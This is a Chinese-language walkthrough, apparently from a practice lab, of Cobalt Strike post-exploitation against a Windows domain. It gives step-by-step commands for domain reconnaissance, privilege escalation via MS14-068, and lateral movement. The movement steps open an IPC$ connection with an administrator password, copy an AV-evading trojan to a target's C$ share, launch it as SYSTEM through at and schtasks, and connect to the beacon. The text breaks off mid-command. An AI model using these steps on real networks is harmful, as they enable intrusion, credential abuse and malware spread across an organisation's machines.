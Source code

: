 windows2003以webadmin登录，且取得cs的木马控制权
cs间隔时间：3-5s
1、进入beacon，输入命令判断是否为域环境：
shell net time /domain #这条命令在没有域环境的主机上执行时，会显示没有域环境。因此可以使用此命令判断目标当前是否处于域环境
#如果当前用户不是域主机，可在CS中执行==“spawn as”以其他用户上线（提权之后可切换用户）==
shell net time /domain

1.1、得到当前域环境之后，使用ping命令去ping当前的域名，即可得到当前域控的ip地址：

shell ping OWA2010CN-God.god.org -4

1.2、视图-目标列表
beacon > net view

1.3、其它
shell net user /domain
net localgroup administrators


2、权限提升system
ms14-068或者spawn as xxx



3、横向移动

3.1、建立正向连接监听器，利用此监听器生成木马（免杀处理），保存到本地桌面，上传到win2003

建立IPC连接（两种方法任选）
方法一：利用system权限，输入命令建立连接
`shell net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\administrator` #命令注释：使用CS调动ipc的方式输入账号密码和目标机器建立连接（账号密码在信息收集凭据信息时可以获取）

shell net use查看

方法二：利用插件建立连接
选择插件中的横向移动模块，选择与指定主机建立IPC连接，输入目标主机的IP地址，账号密码（前面信息收集可得到）

横向移动->IPC$连接->文件管理->上传4444.exe到win2003

`shell copy 4444.exe \\192.168.3.21\c$` #利用IPC建立的连接，使用copy命令将当前受控机的木马复制到目标主机的c盘下

CS中使用命令将上传的4444.exe木马复制到目标机器

查看当前时间，然后使用at命令创建计划任务运行4444.exe木马

查看当前时间：shell net time /domain
使用at命令创建计划任务：（时间需要根据实际情况去设置）
shell at \\192.168.3.21 12:51 c:\4444.exe

针对Windows2012版本之前的操作系统可以使用at命令；
针对Windows2012及以后版本的操作系统使用schtasks命令:
`schtasks /create /s 192.168.3.21 /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\4444.exe /F`
原理和at命令是一样的。


schtasks   /create    /s 192.168.3.21  /tn "MyTask" /tr "c:\beacon_tcp_x64.exe" /sc once /st 16:00



等设置的时间到了之后，执行命令正向连接我们上传的木马，成功上线！实现横向移动
反向连接操作步骤：
连接192.168.3.21的4444端口：
==**`connect 192.168.3.21 4444
